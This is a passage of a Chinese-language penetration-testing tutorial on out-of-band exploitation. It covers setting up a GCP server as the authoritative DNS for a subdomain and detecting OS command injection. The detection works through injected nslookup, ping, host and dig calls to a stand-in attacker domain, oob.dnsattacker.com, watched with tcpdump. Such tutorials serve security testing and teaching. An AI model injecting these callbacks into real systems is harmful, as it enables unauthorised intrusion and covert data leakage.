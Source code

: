 我们使用Google Cloud Platform（GCP）创建具有静态IP地址的Linux机器。请确保你在服务器上具有root权限。如果你之前并没有任何有关GCP的创建经验，那么请参照[本指南](https://medium.com/google-cloud/creating-a-virtual-machine-in-google-cloud-platform-ec2d74dbbab0)进行创建。

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629609_5b971b69e8889.png!small)](https://image.3001.net/images/20180911/1536629609_5b971b69e8889.png)

我们在注册商的DNS设置中，为我们的域添加了两条记录。使用NameServer定义了一个子域，以及为nameserver定义了A记录（我们GCP服务器的IP）。现在，这些设置将子域的所有DNS请求都路由到了我们的GCP服务器上。

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629626_5b971b7a299bb.png!small)](https://image.3001.net/images/20180911/1536629626_5b971b7a299bb.png)

我们可以使用tcpdump来观察服务器上的DNS查询情况。

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629639_5b971b8756c19.png!small)](https://image.3001.net/images/20180911/1536629639_5b971b8756c19.png)

## 三、系统命令注入：OOB

我们可以通过解析DNS名称并查找关联的DNS查询，来检测Web应用程序中的操作系统代码注入漏洞。

### **1. 检测**

**DNS**

攻击者：使用Wireshark/tcpdump观察53端口的响应情况。

```bash
sudo tcpdump -n port 53
```

**注：**在DNS命令中，我们还可以显式定义用于解析的名称服务器。

**Windows**

```bash
nslookup test.oob.dnsattacker.com
```



```bash
ping ping.oob.dnsattacker.com
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629691_5b971bbb3ef0e.png!small)**

**UNIX**

```bash
host host.oob.dnsattacker.com
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536629709_5b971bcd4c91a.png!small)](https://image.3001.net/images/20180911/1536629709_5b971bcd4c91a.png)

同样，我们可以使用：

```bash
dig test.oob.dnsattacker.com
ping test.oob.dnsattacker.com
nslookup test.oob.dnsattacker.com
```
